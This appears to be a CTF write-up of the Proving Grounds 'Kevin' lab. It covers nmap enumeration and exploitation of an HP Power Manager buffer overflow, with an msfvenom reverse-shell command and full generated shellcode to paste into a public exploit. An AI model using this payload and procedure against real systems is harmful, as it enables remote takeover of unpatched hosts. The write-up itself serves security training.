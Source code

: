 ```yaml
---
title: "Proving grounds Practice: Kevin"
layout: post
date: 2023-08-28 01:00
categories: writeup
---
```


Proving grounds Practice - Kevin CTF writeup.

## Nmap

```sh
Nmap
PORT      STATE SERVICE            VERSION
80/tcp    open  http               GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.174.45/index.asp
| http-methods: 
|_  Supported Methods: GET HEAD
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
```

## PORT : 80 : Web

HP Power Manager 4.2 (Build 7)

![img](/assets/images/CTF/Proving_Grounds/Kevin/web.png)

HP Power Manager 4.2 (Build 7) is vulnerable to [Buffer Overflow Attack](https://www.exploit-db.com/exploits/10099).

## Exploitation

Download the [Exploit](https://www.exploit-db.com/exploits/10099) from exploitDB.

Create a shellcode using `tun0` IP and local PORT to listen for reverse connection.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.156 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x64/alpha_mixed --platform windows -f c
```

**Generated Buffer**

```text
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11"
```

Replace the above buffer values in the exploit code.

```python
SHELL = (
"n00bn00b"
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11")
```

Run netcat listerner on the PORT which was used in the above payload.

Run the exploit using `python2` and the reverse connetion will be obtained in few seconds.

![img](/assets/images/CTF/Proving_Grounds/Kevin/shell.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).